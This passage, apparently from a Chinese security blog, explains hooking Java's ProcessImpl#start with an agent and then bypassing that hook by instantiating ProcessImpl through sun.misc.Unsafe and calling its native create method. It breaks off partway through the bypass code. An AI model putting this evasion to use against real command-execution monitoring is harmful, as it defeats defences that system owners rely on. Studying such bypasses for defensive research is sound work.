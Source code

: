 ```java
        
        //但是添加了我的lib目录没看到，可能只是一个虚拟添加那种
    } catch (IOException e) {
        throw new RuntimeException(e);
    }
}
```

（这里添加到`BootstrapClassLoader`搜索范围的类貌似都需要是公开类，`addJarToBootStrap`要放在premain的开头，否则会有一些奇怪的错误）	

![image-20231105214736605](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231105214736605.png)

当然也可以不调用自定义的类，直接给`ProcessImpl`加个方法，这样就不存在类加载的问题了。但是需要手搓ASM

（这个方法本质上和上面的没有区别，就是麻烦点）





## Bypass	

上面的hook点在`ProcessImpl#start`,我们可以通过更底层的函数来绕过。

以windows为例，直接调用`ProcessImpl`的native方法`create`

利用`sun.misc.Unsafe#allocateInstance`去实例化`ProcessImpl`

![image-20231106091936729](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231106091936729.png)

```java
Process process = Runtime.getRuntime().exec("whoami");

BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
String line;
while ((line = reader.readLine()) != null) {
    System.out.println(line);
}
```

之前调用`Runtime#exec`会返回一个`Process`对象，而`ProcessImpl`是`Process`的实现类

`getInputStream`返回`Process`对象的`stdout_stream`标准输出流，我们获取命令执行的结果大概是这样子的

`先简单看一下getInputStream方法干了什么（就返回了一个输出流对象,说明运算啥的不是在这完成的，那肯定就是构造方法）

![image-20231106095511021](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231106095511021.png)

果然在构造方法实现了，一些stdHandles的赋值，但是create是native方法，所以我们不能获得完整的ProcessImpl对象，就需要自己把这个逻辑写出来

(如果方法是用native关键字声明的，也就是原生方法（Native methods），则不能通过反射直接获取和执行这些方法。)

![image-20231106100249416](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231106100249416.png)

```java
import sun.misc.JavaIOFileDescriptorAccess;
import sun.misc.Unsafe;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class ByPass {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("sun.misc.Unsafe");
        Field field = clazz.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        Class<?> processImpl = Class.forName("java.lang.ProcessImpl");
        Process process = (Process) unsafe.allocateInstance(processImpl);
```